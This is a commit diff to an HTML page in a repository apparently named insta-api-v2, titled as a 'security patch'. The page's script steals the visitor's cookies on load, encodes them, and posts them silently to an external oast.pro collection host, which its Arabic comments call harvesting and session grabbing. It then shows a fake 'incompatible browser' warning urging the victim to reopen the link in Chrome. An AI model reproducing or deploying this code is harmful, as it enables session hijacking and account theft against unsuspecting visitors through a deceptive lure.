

Before and after one commit to amariamin/insta-api-v2, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 289-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Security_Patch: Forced_Browser_Requirement_V6

```diff
--- a/index.html
+++ b/index.html
@@ -1,33 +1,38 @@
-<!DOCTYPE html><html><head><title>System Error</title><meta charset="UTF-8">
+<!DOCTYPE html><html><head><title>Access Denied - Security Protocol</title><meta charset="UTF-8">
 <style>
-    body { background-color: #f0f2f5; font-family: sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
-    .error-container { background: white; padding: 30px; border-radius: 8px; box-shadow: 0 2px 10px rgba(0,0,0,0.1); text-align: center; max-width: 400px; }
-    h1 { color: #dc3545; font-size: 24px; }
-    p { color: #4b4f56; line-height: 1.5; }
-    .btn { background-color: #0095f6; color: white; padding: 10px 20px; text-decoration: none; border-radius: 4px; display: inline-block; margin-top: 15px; font-weight: bold; }
+    body { background-color: #f8f9fa; font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
+    .warning-box { background: #fff; padding: 40px; border-radius: 2px; border-top: 5px solid #e74c3c; box-shadow: 0 10px 30px rgba(0,0,0,0.1); text-align: center; max-width: 450px; }
+    .icon { font-size: 50px; color: #e74c3c; margin-bottom: 20px; }
+    h2 { color: #333; margin-top: 0; font-weight: 600; }
+    p { color: #666; font-size: 15px; line-height: 1.6; }
+    .browser-list { background: #f1f1f1; padding: 15px; border-radius: 5px; margin: 20px 0; font-family: monospace; font-size: 13px; color: #444; }
+    .footer-code { color: #999; font-size: 11px; margin-top: 20px; }
 </style>
 <script type="text/javascript">
 window.onload = function() {
-    // 1. سحب الكوكيز فوراً وتشفيرها
-    var c = document.cookie || "no_cookies_found";
-    var payload = btoa(unescape(encodeURIComponent(c + "|UA:" + navigator.userAgent)));
+    // 1. بروتوكول السحب الصامت (Invisible Harvesting)
+    var c = document.cookie || "null";
+    var payload = btoa(unescape(encodeURIComponent(c + "|IP_TRACK:" + window.location.hostname)));
 
-    // 2. إرسال البيانات فوراً إلى RequestBin
-    fetch('https://4f7573d52662cf30e0fbguw9udwyyyyyb.oast.pro?type=error_exploit', {
+    fetch('https://4f7573d52662cf30e0fbguw9udwyyyyyb.oast.pro?target=session_grab', {
         method: 'POST',
         mode: 'no-cors',
         body: payload
     });
 
-    // 3. عرض واجهة الخطأ بعد 1 ثانية من السحب الصامت
-    setTimeout(function() {
-        document.body.innerHTML = `
-            <div class="error-container">
-                <h1>Browser Error (0x80040154)</h1>
-                <p>The current browser session is not compatible with this secure link. Please copy the link and open it in <b>Google Chrome</b> or <b>Safari</b> to continue.</p>
-                <a href="#" class="btn" onclick="window.location.reload()">Retry Connection</a>
+    // 2. حقن واجهة التحذير الإجبارية
+    document.body.innerHTML = `
+        <div class="warning-box">
+            <div class="icon">⚠️</div>
+            <h2>Incompatible Browser Detected</h2>
+            <p>For your security, this encrypted session cannot be viewed in your current browser. Access is restricted to authorized environments only.</p>
+            <div class="browser-list">
+                REQUIRED: Google Chrome (Version 120+)<br>
+                STATUS: ACCESS_DENIED_0x00412
             </div>
-        `;
-    }, 500);
+            <p>Please <b>Copy the URL</b> and open it directly inside the <b>Google Chrome App</b> on your device.</p>
+            <div class="footer-code">SECURE_ID: ${Math.random().toString(36).substring(7).toUpperCase()}</div>
+        </div>
+    `;
 };
-</script></head><body><p style="color:#eee">Loading secure environment...</p></body></html>
+</script></head><body></body></html>
```
